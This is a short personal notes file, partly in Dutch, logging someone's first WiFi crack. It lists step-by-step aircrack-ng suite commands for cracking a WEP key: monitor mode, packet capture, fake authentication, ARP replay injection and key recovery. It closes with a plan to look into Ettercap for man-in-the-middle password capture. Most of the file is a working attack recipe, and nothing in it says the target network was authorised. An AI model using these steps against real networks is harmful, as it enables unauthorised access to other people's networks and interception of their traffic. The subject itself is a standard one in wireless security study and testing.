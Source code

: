 ##27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

#Steps/Commands

###Wireless Reconnaiccance:
**Window 1**
* iwconfig
* airmon-ng start wlan0
* airodump-ng "INTERFACE"
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

###Wireless Equivalent Privacy(WEP):
**Window 1**
* airmon-ng
  * Find "INTERFACE"
* airodump-ng "INTERFACE"
* Find information in table
	
**New window 2**
* airodump-ng --bssid "BSSID" -c "Channel" -w wep_log "INTERFACE"

**New window 3** 
* ifconfig 
* Find own MAC

**New window 4**
* aireplay-ng -1 0 -a "BSSID" -h "client MAC" -e "name connection" "INTERFACE" --ignore-negative-one
* aireplay-ng -3 -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one

**New window 5**
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one
* use this packet? ENTER

**Window 2** 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

**First window**	
* clear
* aircrack-ng -a 1(is één) -b "BSSID" -n 64 wep_log-01.cap
	
**_FIND PASSWORD!!!!_**

Next time: Script schrijven!

TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?) -> Man in the middle attack
